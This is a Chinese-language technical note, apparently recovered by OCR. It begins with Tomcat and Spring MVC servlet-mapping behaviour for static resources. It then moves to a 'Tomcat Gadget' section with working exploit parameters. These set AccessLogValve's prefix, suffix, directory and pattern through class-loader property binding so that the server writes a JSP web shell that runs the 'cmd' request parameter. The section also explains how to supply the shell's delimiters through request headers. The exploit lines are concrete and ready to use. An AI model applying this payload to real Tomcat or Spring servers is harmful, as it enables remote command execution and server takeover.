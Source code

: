        <!-- The mappings for the JSP servlet -->
       <servlet-mapping>
           <servlet-name>jsp</servlet-name>
           <url-pattern>*.jsp</url-pattern>
           <url-pattern>*.jspx</url-pattern>
       </servlet-mapping>
       可以看到默认是支持jsp文件的，jsp优先级高于default，静态资源都会走默认的default servlet
       springmvc中拦截静态资源问题
       <servlet-mapping>
           <servlet-name>springmvc</servlet-name>
           <url-pattern>/</url-pattern>
       </servlet-mapping>
       可以看到会拦截所有请求都走springmvc，包括静态资源，此时静态资源会失败，RequestMapping请求正常；有两种解决方法，一种是增加扩展名高优先级匹配来访问，但是很不方便也不推荐；第二种方式是增加<mvc:default-servlet-handler/>，这样会注册一个DefaultServletHttpRequestHandler，这样之后，静态资源就能正常访问，但是引入了新的问题无法处理@RequestMapping注解请求（因为增加处理bean的时候减少了一开始默认的处理bean），需要增加<mvc:annotation-driven/>，其会注册RequestMappingHandlerAdapter（还有很多别的bean，可以简单理解功能增强，包括了RequestMapping访问）。这样静态资源，动态资源都能处理。但一般都使用springboot，无需太关注。
       annotation-driven的补充理解：https://www.zhihu.com/question/362051844
       ```

# Tomcat Gadget

## AccessLogValve

* org.apache.catalina.loader.ParallelWebappClassLoader.resources.context.parent.pipeline.first是AccessLogValve日志对象

* AccessLogValve中修改其中的如下几个重要属性进行利用

  * ```
    //生成的文件名称前缀
    ParallelWebappClassLoader.resources.context.parent.pipeline.first.prefix=shell
    //将文件日期格式设置为空，那么最后生成的文件再prefix和suffix之间就不存在日期串，相当于prefix就为文件名;目前测试来看这个参数必须得有变动，最后才能生成新文件；这个变动可以是空，也可以是.yyyy-MM这种格式，但必须区别于原始的格式；空时一个比较好的选择
    ParallelWebappClassLoader.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
    //生成的文件后缀
    ParallelWebappClassLoader.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
    //生成文件的目录
    ParallelWebappClassLoader.classLoader.resources.context.parent.pipeline.first.directory=C:\Opt\Tomcat\apache-tomcat-9.0.60\webapps\webenv17_4war\WEB-INF\jsp\
    //文件中写入的格式话内容；最后这个文件中一部分是日志数据（对于Jsp无影响），一部分是注入的代码数据
    //AbstractAccessLogValve.java中注释：%{xxx}i for incoming headers
    //原始代码<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
    //转换后%{prefix}i.getRuntime().exec(request.getParameter("cmd"));%{suffix}i
    //转码后%25{prefix}i.getRuntime().exec(request.getParameter("cmd"))%3b%25{suffix}i
    //利用时在header中加入prefix:<%Runtime   suffix:%>,在请求参数中加入cmd=calc
    //在没有prefix suffix时，就是一段文本写入jsp
    class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25{prefix}i.getRuntime().exec(request.getParameter("cmd"))%3b%25{suffix}i
    
    上述既可以生成一个单独的文件，也可以考虑写入已有的jsp文件
    